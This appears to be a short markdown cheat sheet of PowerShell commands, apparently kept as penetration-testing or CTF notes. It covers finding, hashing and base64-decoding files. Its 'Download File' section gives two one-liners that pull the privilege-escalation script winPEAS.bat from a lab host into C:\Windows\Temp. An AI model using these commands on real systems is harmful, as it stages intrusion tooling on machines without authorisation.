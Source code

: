 ```yaml
---
title: Powershell
description:  Commonly used Powershell commands, tips and tricks.
---
```


## The Basics

### Get-Command 
Gets all the cmdlets installed on the current Computer and allows for pattern matching with the following:
```powershell
Get-Command Verb-* or Get-Command *-Noun
```
### Find, read, and get hash of a file
```powershell
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-Content "C:\Program Files\interesting-file.txt.txt"
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5
Get-Location is the same as "Print Working Directory"
```
### Download File
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.57.139:8000/winPEAS.bat','winPEAS.bat')"
powershell -c "Invoke-WebRequest -Uri 'http://10.6.57.139:80/winPEAS.bat' -OutFile 'C:\Windows\Temp\winpeas.bat'"
```
### Decode Text
```powershell
Get-ChildItem -Path C:/ -Include b64.txt -Recurse -File
certutil -decode "C:\Users\Administrator\Desktop\b64.txt" decode.txt
Get-Content .\decode.txt
```

